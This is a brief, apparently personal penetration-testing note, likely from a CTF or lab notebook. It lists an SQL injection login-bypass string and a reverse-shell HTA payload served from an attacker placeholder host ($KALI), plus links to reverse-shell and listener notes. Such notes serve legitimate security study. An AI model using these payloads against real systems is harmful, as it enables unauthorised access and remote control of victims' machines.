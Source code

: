 
Auth bypass:

```
admin' or '1'='1'--
```

reverse hta file:

[[Python#Server]]

[[1._Reverse Shells (WIN)#hta file]]

[[rlwrap]]

```
URL: http://$KALI/reverse.hta
```

